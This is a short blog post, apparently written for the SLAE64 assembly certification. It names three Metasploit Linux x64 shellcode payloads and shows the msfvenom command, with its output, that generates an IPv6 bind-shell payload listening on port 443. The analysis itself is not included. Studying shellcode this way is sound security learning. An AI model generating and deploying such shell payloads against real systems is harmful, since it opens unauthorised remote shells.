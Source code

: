 Title: SLAE64 - Assignment 5.3
Date: 2022-06-25T09:38:01.000Z


## Disclaimer


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:

[https://www.pentesteracademy.com/course?id=7](https://www.pentesteracademy.com/course?id=7)

Student ID: PA-30398

## Analysis

For the fifth assignment, I decided to analyze the following shellcode samples:

<table>
<thead>
<tr>
<th>Name</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>
<td>linux/x64/meterpreter/reverse_tcp</td>
<td>Inject the mettle server payload (staged). Connect back to the attacker</td>
</tr>
<tr>
<td>linux/x64/pingback_reverse_tcp</td>
<td>Connect back to attacker and report UUID (Linux x64)</td>
</tr>
<tr>
<td>linux/x64/shell_bind_ipv6_tcp</td>
<td>Listen for an IPv6 connection and spawn a command shell</td>
</tr>
</tbody>
</table>

In this post, I'll document the logic of the third shellcode, `linux/x64/shell_bind_ipv6_tcp`.

Let's start from the very beginning, i.e. generating the shellcode. You can do so by means of the `ruby` script `msfvenom`, available by default Kali Linux distributions.

Follows the command I used in order to generate the shellcode for this assignment:

```bash
msfvenom -p linux/x64/shell_bind_ipv6_tcp LHOST=fe80::a00:27ff:feb1:f461 LPORT=443 -f elf -o shellcode

# [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
# [-] No arch selected, selecting arch: x64 from the payload
# No encoder specified, outputting raw payload
# Payload size: 94 bytes
# Final size of elf file: 214 bytes
# Saved as: shellcode
```
